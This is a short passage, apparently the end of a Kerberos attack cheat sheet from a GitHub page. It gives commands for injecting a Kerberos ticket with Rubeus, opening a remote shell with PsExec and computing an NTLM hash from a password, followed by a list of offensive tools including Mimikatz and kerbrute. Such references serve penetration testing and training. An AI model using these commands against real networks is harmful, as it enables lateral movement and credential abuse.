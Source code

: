 Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Misc

To get NTLM from password:
```python
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Rubeus](https://github.com/Zer1t0/Rubeus) with brute module
* [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute)
* [tickey](https://github.com/TarlogicSecurity/tickey)
* [ticket_converter.py](https://github.com/Zer1t0/ticket_converter)




